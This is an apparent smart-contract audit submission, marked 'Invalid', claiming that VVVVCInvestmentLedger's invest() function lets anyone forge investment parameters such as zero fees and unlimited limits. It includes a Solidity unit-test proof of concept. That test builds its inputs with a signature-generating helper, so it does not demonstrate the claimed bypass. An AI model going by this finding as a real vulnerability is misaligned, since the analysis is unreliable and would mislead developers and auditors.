 Scrawny Ruby Hare

Invalid

# Lack of proper check for `VVVVCInvestmentLedger::invest()` function

### Summary

the invest() function is used in the protocol to provide a way for users to invest in the incoming projects that are going to be launched and the protocol explicitly says in the docs that "In the case of VVVVCInvestmentLedger:invest() the centralized system generates approved input parameters, and the contract ensures that these validated parameters aren't exceeded". However this function is a public function which no modifiers and anyone calls it and it takes a single struct as an input which anybody can easily construct it by their own.

### Root Cause

https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCInvestmentLedger.sol#L141C5-L205C6

### Internal pre-conditions

anyone can construct arbitrary struct input and call the invest() function

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

Anyone can easily make their own input and potentially do things like: setting 0 as fees, bypassing time and allocation limitations, setting a favorable numerator and denumerator for rates etc.

### PoC

add this block of code to the `VVVVCInvestmentLedger.unit.t.sol` file:
```Solidity
    function test_investLackOfCheck() public {
        // Generating fake params
        VVVVCInvestmentLedger.InvestParams memory params = generateInvestParamsWithSignature(
            sampleInvestmentRoundIds[0],
            investmentRoundSampleLimit,
            sampleAmountsToInvest[0],
            type(uint256).max, // infinite allocation
            exchangeRateNumerator,
            0, // making fee 0
            sampleKycAddress,
            0, // 0 timestamp for round start
            type(uint256).max // infinite timestamp for round end
        );
        
        uint256 preInvestBalance = PaymentTokenInstance.balanceOf(sampleUser);

        investAsUser(sampleUser, params);

        // still the transaction goes through and passes the same checks for "testInvest" function in this file
        assertTrue(PaymentTokenInstance.balanceOf(address(LedgerInstance)) == params.amountToInvest);
        assertTrue(PaymentTokenInstance.balanceOf(sampleUser) + params.amountToInvest == preInvestBalance);
    }
```

### Mitigation

_No response_